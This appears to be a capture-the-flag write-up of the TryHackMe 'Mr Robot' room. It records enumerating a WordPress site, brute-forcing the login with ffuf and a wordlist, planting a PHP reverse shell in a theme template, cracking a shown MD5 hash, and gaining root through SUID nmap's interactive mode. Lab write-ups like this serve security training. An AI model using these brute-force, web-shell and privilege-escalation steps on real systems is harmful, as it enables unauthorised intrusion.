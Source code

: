 # Mr Robot (THM)

- https://tryhackme.com/room/mrrobot
- March 15, 2023
- medium

---

## Enumeration

### Nmap

1. 80/http Apache httpd
2. 443/https Apache 

### HTTP

![](screenshots/2023-03-15-01-31-24.png)

- It is a wordpress site

![](screenshots/2023-03-15-01-32-00.png)

- robots.txt fond 2 files
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
- fsocity.dic may be some potential passwords (885160 words) and save in local machine

```sh
$ curl http://$IP/fsocity.dic -o fsocity.dic
```
- other file is for flag submission
- as it is a wordpress website and there is admin login page at `/wp-login.php` 
- one weakness of wordpress is if we enter username and password, we can know username is wrong or password is wrong separately.
- I tried with `admin:admin` and 

![](screenshots/2023-03-15-02-09-38.png)

- it means there is no username `admin`
- try to brute force usernames with fsocity.dic wordlists like this

```sh
$ ffuf -u http://$IP/wp-login.php -X POST -w ./fsocity.dic -H "Content-Type: application/x-www-form-urlencoded" -d 'log=FUZZ&pwd=admin&wp-submit=Log+In' -fr "Invalid username"
```
- found one username
```
Elliot   [Status: 200, Size: 3635, Words: 144, Lines: 59]
```
- then enter with Elliot and grep the word that was returned due to wrong password

![](screenshots/2023-03-15-02-16-38.png)

- try to brute force password again

```sh
ffuf -u http://$IP/wp-login.php -X POST -w ./fsocity.dic -H "Content-Type: application/x-www-form-urlencoded" 
-d 'log=Elliot&pwd=FUZZ&wp-submit=Log+In' -fr "The password you entered for the" -c
```

- it tooks too long as the correct password is last from the wordlist
- can enter web admin panel 

![](screenshots/2023-03-15-02-23-14.png)

- add php reverse shell in `Appearence > Editor > 404.php`

![](screenshots/2023-03-15-02-31-44.png)

## User Access

- listen with nc and get request to some arbitary route to trigger 404 page

![](screenshots/2023-03-15-02-33-25.png)

- get `daemon` user access
- run linpeas
- potential vulnerabilities found

```
linux - 3.13.0-55-generic kernal exploit
/etc/crontab
suid - nmap
file -> /home/robot/password.raw-md5
`robot:c3fcd3d76192e4007dfb496cca67e13b`
```

- crack `password.raw-md5` from crackstation.net and get password

```sh
robot@linux:~$ id
id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
```

## Root Access

- It is possible to get root user access directly from `daemon` account using nmap suid as it is version 3.18 in which `--interactive` flag can be executed

```sh
daemon@linux:/opt/bitnami/stats$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
# 
```

---